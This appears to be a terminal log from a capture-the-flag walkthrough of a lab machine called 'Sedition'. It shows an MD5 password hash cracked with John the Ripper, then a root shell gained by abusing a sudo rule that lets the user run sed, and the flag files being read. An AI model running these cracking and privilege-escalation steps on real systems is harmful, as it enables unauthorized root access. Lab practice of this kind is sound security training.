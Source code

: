 

┌──(kali㉿kali)-[~/Documents/sedition]
└─$ echo "debian:7c6a180b36896a0a8c02787eeafb0e4c" > mysql_hash.txt

                                                                                                                   
┌──(kali㉿kali)-[~/Documents/sedition]
└─$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt mysql_hash.txt

password1        (debian)     

                                                                                                                   


--------------------------------------
cowboy@Sedition:/$ su debian
Contraseña: password1


debian@Sedition:/home$ cd debian/
debian@Sedition:~$ ls
backup  flag.txt
debian@Sedition:~$ cat flag.txt 
pinguinitopinguinazo




debian@Sedition:~$ sudo -l
Matching Defaults entries for debian on sedition:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User debian may run the following commands on sedition:
    (ALL) NOPASSWD: /usr/bin/sed
debian@Sedition:~$ sudo sed -n '1e exec sh 1>&0' /etc/hosts
# 
# ls
backup  flag.txt
# whoami
root
# pwd
/home/debian
# cd /
# ls
bin   dev  home        initrd.img.old  lib64       media  opt   root  sbin  sys  usr  vmlinuz
boot  etc  initrd.img  lib             lost+found  mnt    proc  run   srv   tmp  var  vmlinuz.old
# cd root
# ls
root.txt
# cat root.txt
laflagdelbunkerderootmolaaunmas
# 
